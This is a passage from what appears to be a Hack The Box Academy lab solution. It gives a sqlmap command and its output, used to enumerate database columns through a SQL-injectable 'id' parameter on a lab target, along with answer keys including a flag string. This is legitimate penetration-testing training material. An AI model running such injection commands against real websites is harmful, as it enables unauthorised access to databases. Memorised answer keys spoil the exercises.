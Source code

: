 Answer: `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`

# Advanced Database Enumeration

## Question 1

### "What's the name of the column containing "style" in it's name? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' --search -C style --batch
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' --search -C style --batch

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

columns LIKE 'style' were found in the following databases:
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+

<SNIP>
```

Answer: `PARAMETER_STYLE`

# Advanced Database Enumeration
